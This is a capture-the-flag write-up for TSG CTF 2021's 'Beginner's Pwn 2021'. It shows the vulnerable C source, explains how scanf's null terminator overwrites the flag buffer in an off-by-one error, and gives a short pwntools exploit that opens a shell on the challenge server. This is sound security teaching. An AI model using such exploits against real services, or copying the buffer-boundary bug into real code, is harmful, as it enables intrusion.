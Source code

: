# TSG CTF 2021 

## Beginner's Pwn 2021

> 100
> 
> I heard pwners could utilize an off-by-one error to capture the flag.
>
> `nc 34.146.50.22 30007`
>
> Hint for beginners:
> 
> * First of all, download the attachments and see the source file.
> * What you have to do is to guess the flag... No, fake the flag. That means you have to somehow make `strncmp(your_try, flag, length) == 0` hold.
> * There is little attack surface. Check the spec of suspicious functions.
>
> [`beginners_pwn.tar.gz`](beginners_pwn.tar.gz)

Tags: _pwn_ _x86-64_ _off-by-one_ _remote-shell_


## Summary

The description pretty much spells it out for you.


## Analysis

### Source Included    

```c
void win() {
    system("/bin/sh");
}

void init() {
    alarm(60);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main(void) {
    char your_try[64]={0};
    char flag[64]={0};

    init();

    puts("guess the flag!> ");

    FILE *fp = fopen("./flag", "r");
    if (fp == NULL) exit(-1);
    size_t length = fread(flag, 1, 64, fp);

    scanf("%64s", your_try);

    if (strncmp(your_try, flag, length) == 0) {
        puts("yes");
        win();
    } else {
        puts("no");
    }
    return 0;
}
```

The challenge description clearly states this is an _off-by-one error_.  Since, `scanf` is our only input method, let's start with `man scanf`:

```
s      Matches a  sequence  of  non-white-space  characters;  the  next
       pointer  must be a pointer to the initial element of a character
       array that is long enough to hold the  input  sequence  and  the
       terminating null byte ('\0'), which is added automatically.  The
       input string stops at white space or at the maximum field width,
       whichever occurs first.
```

This: _that is long enough to hold the input sequence **and the terminating null byte ('\0')**_, is the key.

`scanf("%64s", your_try);` will accept `64` characters and terminate with a null byte at the 65th character overwriting the first byte of `flag` (IFF you input 64 characters).  IOW, _off-by-one_.  So, if `flag` is null, then to match with `strncmp`, `your_try` must also be null; actually just start with null since `strncmp` compares strings and strings end with _null_:

From `man strncmp`:

```
The strncmp() function compares not more than n characters.  Because
strncmp() is designed for comparing strings rather than binary data,
characters that appear after a '\0' character are not compared.
```     

To get a match and `win()`, just send a null followed by 63 bytes of anything.  `scanf` will append the final `null` overwriting the first byte of `flag`.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

p = remote('34.146.101.4', 30007)

p.sendlineafter(b'> \n',b'\0' + 63 * b'A')
p.recvuntil(b'yes\n')
p.interactive()
```

Output:

```bash
# ./exploit.py
[+] Opening connection to 34.146.101.4 on port 30007: Done
[*] Switching to interactive mode
$ cat flag
TSGCTF{just_a_simple_off_by_one-chall_isnt_it}
```